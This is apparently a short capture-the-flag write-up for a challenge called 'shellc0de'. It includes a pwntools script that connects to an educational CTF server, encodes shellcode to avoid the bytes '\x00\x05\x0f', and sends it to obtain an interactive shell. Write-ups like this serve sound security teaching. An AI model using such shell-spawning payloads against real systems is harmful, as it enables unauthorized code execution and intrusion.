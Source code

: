 ## shellc0de

- Analyzing the source code,I know the process on the system will execute the shell code I sent only when there are no bad characters '\x00\x05\x0f'.
- Using pwntool's module shellcraft,I generated a shellcode without badcharacters,and finally got the flag.
- Below is my exploit code:
```
from pwn import *

host = 'edu-ctf.csie.org'
port = 10150

r = remote(host,port)

context.arch = 'amd64'

r.recvuntil('>')

shellcode = asm(shellcraft.sh())

avoid = '\x00\x05\x0f'

encode_shell = encoders.encode(shellcode,avoid)

r.sendline(encode_shell)
r.interactive()
```
![](https://i.imgur.com/tmnPfYr.png)
